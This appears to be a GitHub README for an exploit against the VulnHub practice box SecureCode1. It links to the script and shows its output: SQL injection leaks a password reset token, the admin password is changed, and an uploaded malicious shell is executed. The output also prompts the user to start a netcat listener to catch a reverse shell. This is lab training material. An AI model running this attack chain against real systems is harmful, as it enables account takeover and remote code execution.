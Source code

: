 # SecureCode1 Exploit

Python exploit for the VulnHub OSWE practice box 'SecureCode1'

## The Box

https://www.vulnhub.com/entry/securecode-1,651/

The box was fairly easy to exploit if you know your way around PHP code.

I have uploaded the exploit for anybody that needs a little nudge writing the final exploit.

## The Codez

[exploit.py](https://github.com/plackyhacker/SecureCode1/blob/main/exploit.py)

## Execution

```
python3 ./exploit.py 192.168.1.167 Password123
[+] Don't forget to start your netcat listener: nc -nvlp 4444
[+] Requesting password reset token...
[+] Using SQLi to get the password reset token...
[+] Found password reset token: QXAmvO3pCJlJDTa
[+] Changing the admin password to Password123
[+] Logging in to the web app...
[+] Checking access...
[+] Permitted, will continue...
[+] Uploading malicious shell...
[+] Executing malicious shell...
```
